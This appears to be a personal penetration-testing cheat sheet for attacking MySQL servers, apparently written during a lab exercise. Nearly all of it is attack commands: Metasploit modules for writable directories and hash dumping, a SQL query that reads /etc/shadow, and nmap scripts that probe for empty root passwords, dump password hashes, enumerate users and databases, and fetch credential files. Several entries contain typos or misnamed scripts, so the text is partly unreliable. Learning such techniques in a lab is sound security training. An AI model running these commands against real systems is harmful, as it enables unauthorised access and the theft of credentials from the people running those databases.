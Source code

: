 mysl -h ip -u root 
in msfconsole do:# search mysql
msfconsole
scanner/mysql/mysql/mysql_writable_dirs
scanner/mysql/mysql_hashdump


mysql command to get file :
select load_file("/etc/shadow");

get empty passwords
sudo nmap -p 3306 192.26.238.3 --script mysql-empty-password --script-args='username=root,password='

get certain files in target example /etc/shadow

nmap --script http-passwd --script-args http-passwd.root=/etc/shadow <target>

nmap scripts
--script=mysql-empty-password

--script=mysql-info

--script mysql-users  --script-args="mysqluser='root' ,mysqlpass='' "

--script mysql-databases  --script-args="mysqluser='root' ,mysqlpass='' "

--script=mysql-empty-variables --script-args="mysqluser='root' ,mysqlpass='' "

--script=mysql-audit --script-args="mysql-audit.username='root' ,mysql-audit.password='' , mysql.audit.filename='/usr/nmap/nselib/data/mysql-cis.audit'"

--script=mysql-empty-dump-hashes --script-args="username='root' ,password='' "

--script=mysql-query --script-args="query='select count(*) from books.authors;', username='root' ,password='' "


some wordlists for directories for msfconsole mysql

/usr/share/metasploit-framework/data/wordlists/sensitive_files.txt
/usr/share/metasploit-framework/data/wordlists/directory.txt